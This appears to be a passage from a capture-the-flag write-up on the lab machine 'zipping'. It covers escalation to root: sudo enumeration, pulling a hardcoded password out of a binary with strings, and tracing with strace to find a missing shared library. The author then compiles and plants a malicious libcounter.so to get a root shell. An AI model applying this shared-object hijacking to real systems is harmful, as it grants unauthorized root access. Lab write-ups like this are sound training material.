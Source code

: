 Looking at the `sudo -l` we are given an entry:

```
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Executing the binary prompts a password.

```
$ sudo /usr/bin/stock
Enter the password:
```
Running `strings /usr/bin/stock` lists the strings in the binary, and there is a particular one of interest:

`St0ckM4nager`

Using this as the password works successfully!

```
$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```

Looking through the options we can view the stock file, edit the stock entries, and exit the program.

None of the options seem to have any capabilities, so lets run `strace /usr/bin/stock` to look at what the binary is calling.

After entering the password an entry of interest is seen:

`openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)`

Its referencing a file that doesn't exist, we could abuse this with sudo for a shell! I used the C shell file from [here](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics#sudo-ld_preload).

```
$ gcc -fPIC -shared -o libcounter.so libcounter.c -nostartfiles
$ mv libcounter.so /home/rektsu/.config/
```

Running `sudo /usr/bin/stock` then entering the password gives us a root shell!
